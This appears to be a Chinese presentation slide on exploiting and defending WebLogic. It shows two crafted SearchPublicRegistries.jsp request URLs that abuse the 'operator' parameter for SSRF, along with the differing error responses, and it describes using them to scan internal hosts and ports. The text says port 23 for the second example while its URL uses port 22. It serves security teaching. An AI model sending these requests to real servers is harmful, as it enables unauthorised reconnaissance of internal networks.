

# Weblogic 的漏洞利用与防范
下面是一个没有服务监听TCP 23端口的例子：
https://10.0.0.1/uddiexplorer/SearchPublicRegistries.jsp?operator=http://10.0.0.4:23&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
响应的片断如下：
weblogic.uddi.client.structures.exception.XML_SoapException: Connection refused
下面是一个有服务监听TCP 23端口的例子：
https://10.0.0.1/uddiexplorer/SearchPublicRegistries.jsp?operator=http://10.0.0.4:22&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
响应片断如下：
weblogic.uddi.client.structures.exception.XML_SoapException: Received a response from url: http://10.0.0.4:22 which did not have a valid SOAP content-type: unknown/unknown.
可以利用这种功能来发现主机进行端口扫描